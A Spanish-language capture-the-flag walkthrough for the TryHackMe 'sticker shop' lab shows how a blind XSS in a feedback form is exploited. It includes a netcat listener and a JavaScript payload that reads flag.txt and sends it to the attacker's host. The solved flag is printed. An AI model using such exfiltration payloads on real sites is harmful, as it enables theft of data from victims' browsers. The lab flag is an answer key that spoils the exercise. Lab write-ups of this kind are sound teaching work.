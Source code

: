 ## Introducción

Este walkthrough describe el proceso para vulnerar una máquina en TryHackMe, identificando vulnerabilidades en una página web de stickers de gato y explotándolas para extraer la flag oculta.

## Paso 1: Exploración Inicial

Al acceder a la página web, encontramos dos pestañas principales:

- **Home**

![](the%20sticker%20shop%20(1).png)

- **Feedback**

![](the%20sticker%20shop%20(2).png)

La premisa inicial de TryHackMe nos proporciona la URL donde se encuentra la flag:

```
http://10.10.167.141:8080/flag.txt
```
![](the%20sticker%20shop%20(3).png)


## Paso 2: Intento de Bypass 401

Se intenta acceder a la flag directamente, pero nos encontramos con una autenticación 401. Se prueban diversos métodos de bypass de 401, incluyendo variaciones en la URL como:

```
http://10.10.167.141:8080/FLAG.txt
http://10.10.167.141:8080/Flag.Txt
```

Sin embargo, todos estos intentos resultan en errores 404 o 405, lo que hace imposible realizar el bypass por este método.

![](the%20sticker%20shop%20(4).png)
## Paso 3: Exploración de Feedback y Pruebas de XSS

En la pestaña **Feedback**, encontramos un cuadro de texto donde podemos ingresar datos. Se realizan pruebas de inyección de script, pero la inyección básica:

```
<script>alert(1)</script>
```

No genera ningún resultado. Antes de probar otros métodos, intentamos lo siguiente:

```
<script src="http://10.6.17.22:1234/"></script>
```

Con un listener activo en nuestra máquina:

```
nc -lvnp 1234
```

Obtenemos la siguiente respuesta:

```
listening on [any] 1234 ...
connect to [10.6.17.22] from (UNKNOWN) [10.10.167.141] 49642
GET / HTTP/1.1
Host: 10.6.17.22:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

Esto confirma que la inyección de script está funcionando.

## Paso 4: Explotación de XSS para Obtener la Flag

Sabemos que podemos ejecutar JavaScript dentro del navegador de la víctima. Procedemos con la siguiente consulta para extraer la flag:

```
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.6.17.22:1234/?data=' + encodeURIComponent(data))
    })
    .catch(err => console.error(err));
</script>
```

Dejamos escuchando nuestro listener y recibimos la siguiente respuesta:

```
GET /?data=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1
Host: 10.6.17.22:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

## Paso 5: Decodificación de la Flag

La flag obtenida está en formato URL-encoded:

```
THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D
```

Al decodificarla, obtenemos la flag final:

```
THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

## Conclusión

Se ha vulnerado exitosamente la máquina explotando una inyección de JavaScript en la funcionalidad de **Feedback**, lo que permitió extraer la flag desde `flag.txt` en el servidor. Esto demuestra la importancia de mitigar ataques de XSS en aplicaciones web.